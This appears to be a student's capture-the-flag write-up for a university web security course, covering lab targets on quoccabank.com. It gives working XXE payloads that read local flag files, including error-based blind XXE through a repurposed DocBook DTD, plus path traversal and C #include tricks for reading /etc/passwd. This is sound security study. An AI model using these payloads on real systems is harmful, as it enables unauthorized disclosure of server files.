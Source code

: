     ```xml-dtd
    <!ENTITY % p1 "file">
    <!ENTITY % p2 ":///fl">
    <!ENTITY % p3 "ag_17cc6c717afdef0b7581ec95c47313d3">
    
    <!ENTITY % combined "<!ENTITY payload SYSTEM '%p1;%p2;%p3;'>">
    %combined;
    ```

### v4.feedifier.quoccabank.com

- COMP6443{XXXXE.ejUzMTI3OTk=.RYCCKT54VjrGu21zmnH/6Q==}

  - It appears that you cannot load external DTD. Find internal DTD through the docbook and modify the file to contain the entity to access the flag file. More info: https://portswigger.net/web-security/xxe/blind (Exploiting blind XXE by repurposing a local DTD)

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
    <!ENTITY % custom_entity '
      <!ENTITY &#x25; file SYSTEM "file:///flag_502d2f26a8f23e2df4e7eb8f3d085de3">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      &#x25;eval;
      &#x25;error;
      '>
      %custom_entity;
    ]>
    
    <rss>
    	<channel>
    		<description>The blogging home of QuoccaBank</description>
    		<item>
    			<title>&custom_entity;</title>
    			<link>https://blog.quoccabank.com/?p=42</link>
    			<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
    		</item>
    	</channel>
    </rss>
    ```

### bfd.quoccabank.com

- COMP6443{BRAAAAAINS}
  - https://github.com/ajyoon/systemf/blob/master/examples/http/server.bf
  - Use burp to GET /../etc/passwd in the request

### gcc.quoccabank.com

- Recon
  
  - visiting `/upload.php` reveals the file path on where that PHP file is located inside the server `/quocca-gcc/upload.php`
  - When we #include a C file, it can reveal the contents of that file. i.e. `#include "/etc/passwd"`
  - When compiling a C file, it creates a file name without the C extension
  